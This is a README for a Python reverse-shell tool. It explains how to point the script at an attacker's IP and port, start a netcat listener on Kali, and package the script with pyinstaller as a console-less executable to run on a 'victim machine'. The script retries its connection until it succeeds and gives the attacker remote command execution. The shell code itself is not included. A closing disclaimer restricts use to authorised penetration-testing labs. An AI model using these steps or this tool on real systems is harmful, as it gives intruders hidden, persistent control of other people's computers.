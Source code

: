 # Python Reverse Shell

## Overview
This Python script creates a reverse shell connection to a remote attacker-controlled machine. It continuously attempts to establish a connection with the attacker's IP and allows remote command execution.

## Features
- **Persistent Connection:** The script will keep trying to connect to the attacker's machine if the connection fails.
- **Remote Command Execution:** Once the connection is established, the attacker can execute commands remotely.
- **Directory Navigation:** Supports basic directory navigation (`cd`, `ls`, `pwd`).
- **Error Handling:** The script includes error handling to manage connection issues and command execution errors.

## Usage
### 1. Modify the Script
Edit the script and replace `IP` and `PORT` with the attacker's machine details:
```python
IP = "192.x.x.x"  # Change this to your Kali IP
PORT = 443          # Ensure this port is open on Kali
```

### 2. Run the Attacker's Listener on Kali:
Ensure you're listening on the specified port (443 in this case) on your Linux machine. You can use Netcat or any other listening tool:
```sh
nc -lvnp 443
```

### 3. Generate Executable
Install `pyinstaller` library:
```sh
pip install pyinstaller
```
Generate an executable using `pyinstaller`:
```sh
pyinstaller -F --clean -w shell.py
```
This will create an executable file without a console window.

### 4. Execute the Shell:
Run the generated executable on the victim machine. The shell will attempt to connect to your Kali machine on the specified IP and port.

### 5. Command Execution:
Once connected, you can issue commands such as ls, dir, cd, and any other system commands. The result will be sent back to your terminal.

To exit the shell, simply type `/exit`.

### 3. Test Connection Locally
Before deploying, you can test if the connection is successful using `connection_check.py`:
```python
python .\connection_check.py
```
Run this script on your target machine to verify that the connection can be established.

## ⚠ Disclaimer
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.

